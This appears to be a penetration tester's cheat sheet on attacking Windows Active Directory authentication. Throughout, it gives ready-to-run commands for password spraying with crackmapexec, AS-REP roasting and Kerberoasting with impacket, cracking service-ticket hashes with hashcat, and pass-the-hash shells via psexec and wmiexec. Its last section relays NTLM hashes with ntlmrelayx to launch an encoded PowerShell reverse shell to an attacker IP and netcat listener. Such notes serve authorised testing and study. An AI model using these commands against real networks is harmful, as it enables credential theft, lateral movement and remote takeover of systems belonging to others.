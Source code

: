 # Attacking Authentication

## Password spray


Password spray attack with crackmapexec.
Note that crackmapexec doesn't look at the policy for locking users

```
crackmapexec smb $RHOST -u ${USERS_FILE} -p '${PASSWORD}' -d ${DOMAIN} --continue-on-success
```
Available protocols are: `ssh,mssql,winrm,smb,ldap,rdp,ftp`.


for smb, consider following up with found credentials and `--shares`


## Impacket

### AS-REP roasting

```
impacket-GetNPUsers -dc-ip ${DC_IP} -request -outputfile asrep-result.txt ${DOMAIN}/${OWNED_USER}
```

### Kerberoasting

This is good for high-privilege service accounts.
check for SPN accounts:
```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found SPN:

```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 
```
Note the `$SPN_ACCOUNT` is the account Name, not the ServicePrincipalName.


Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```

### Pass Admin hash psexec

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes :${NTLM_HASH} Administrator@$RHOST
```
a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM:

```
impacket-wmiexec -hashes :${NTLM_HASH} Administrator@${RHOST}
```
This requires the SMB port (usually 445) to be available, Windows File and Printer sharing to be enabled, as well as the ADMIN$ share to be available.


### Relay hash with impacket-ntlmrelayx

You can relay SMB requests between SRV1 and SRV2 by doing the following:

* Setup an nc listener on kali: `nc -nvlp 6666`.
* From kali: `sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${SRV2} -c "powershell -enc ${ENCODED_REV_SHELL}` (`ENCODED_REV_SHELL` points to `$ATTACKER_IP` and port `6666`)
* From SRV1 do `dir \\$ATTACKER_IP\thiswillgetdenied`.
The SMB request with the NTLMv2 Hash of the user on SRV1 will get relayed to SRV2.
Target system needs to have UAC remote restrictions disabled, and the user on SRV1 needs to have access to SRV2 for this to work.

